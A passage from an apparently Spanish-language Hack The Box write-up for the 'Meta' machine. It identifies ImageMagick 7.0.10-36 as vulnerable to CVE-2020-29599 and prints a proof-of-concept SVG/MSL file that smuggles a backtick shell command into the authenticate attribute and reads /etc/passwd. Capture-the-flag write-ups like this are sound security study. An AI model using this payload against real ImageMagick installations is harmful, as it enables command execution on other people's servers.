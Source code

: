 ```console
www-data@meta:/var/www$ mogrify --help
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
```

Sabiendo esto podemos consultar en Google si existe alguna vulnerabilidad para esta versión:

![Búsqueda](/assets/images/hackthebox/machines/meta/search_vuln1.png)

Los primeros resultados no me parecen interesantes así que directamente nos centramos en este:

![Búsqueda](/assets/images/hackthebox/machines/meta/search_vuln2.png)

La versión de ImageMagick que se está utilizando es vulnerable a **[OS Command Injection](https://portswigger.net/web-security/os-command-injection)** tal y como nos explican aquí: [CVE-2020-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29599)


Siguiendo los enlaces para tratar de obtener más información, acabamos llegando a esta página: [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html "ImageMagick Shell Injection via PDF")
Tras un rato leyendo la página, nos muestran un **`POC (Proof of Concept)`** bajo archivos **`.svg`** para explotar la vulnerabilidad haciendo uso de **`MSL (ImageMagick Scripting Language)`**

**poc.svg**:
```xml
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
